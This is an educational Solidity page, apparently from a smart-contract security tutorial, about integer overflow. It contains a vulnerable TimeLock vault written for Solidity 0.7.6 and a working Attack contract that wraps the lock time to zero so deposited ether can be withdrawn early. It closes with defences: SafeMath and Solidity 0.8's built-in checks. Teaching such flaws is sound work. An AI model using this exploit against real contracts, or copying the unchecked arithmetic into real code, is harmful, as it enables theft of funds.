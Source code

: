 # Arithmetic Overflow and Underflow Vulnerability
From https://solidity-by-example.org/hacks/overflow/

## Solidity < 0.8
Integers in Solidity overflow / underflow without any errors

## Solidity >= 0.8
Default behaviour of Solidity 0.8 for overflow / underflow is to throw an error.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;

// This contract is designed to act as a time vault.
// User can deposit into this contract but cannot withdraw for atleast a week.
// User can also extend the wait time beyond the 1 week waiting period.

/*
1. Deploy TimeLock
2. Deploy Attack with address of TimeLock
3. Call Attack.attack sending 1 ether. You will immediately be able to
   withdraw your ether.

What happened?
Attack caused the TimeLock.lockTime to overflow and was able to withdraw
before the 1 week waiting period.
*/

contract TimeLock {
    mapping(address => uint256) public balances;
    mapping(address => uint256) public lockTime;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = block.timestamp + 1 weeks;
    }

    function increaseLockTime(uint256 _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease;
    }

    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(block.timestamp > lockTime[msg.sender], "Lock time not expired");

        uint256 amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent,) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}
```

```
contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    fallback() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        /*
        if t = current lock time then we need to find x such that
        x + t = 2**256 = 0
        so x = -t
        2**256 = type(uint).max + 1
        so x = type(uint).max + 1 - t
        */
        timeLock.increaseLockTime(
            type(uint256).max + 1 - timeLock.lockTime(address(this))
        );
        timeLock.withdraw();
    }
}
```

## Preventative Techniques
Use SafeMath to will prevent arithmetic overflow and underflow

Solidity 0.8 defaults to throwing an error for overflow / underflow

